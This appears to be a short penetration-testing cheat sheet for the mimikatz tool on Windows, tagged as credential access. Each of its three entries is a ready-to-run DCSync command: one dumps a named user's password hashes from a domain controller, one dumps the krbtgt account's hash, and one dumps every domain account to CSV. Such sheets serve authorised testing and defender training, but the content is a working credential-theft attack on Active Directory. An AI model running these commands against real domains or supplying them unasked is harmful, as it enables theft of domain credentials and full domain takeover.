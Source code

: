 # mimikatz

% mimikatz, passwords
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## dcsync - user 
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /user:<domain_netbios>\<user>" "exit"
```

## dcsync - get krbtgt
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /user:<domain_netbios>\krbtgt" "exit"
```

## dcsync - all (krbtgt/Administrator)
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain_fqdn> /dc:<dc_fqdn> /all /csv" "exit"
```
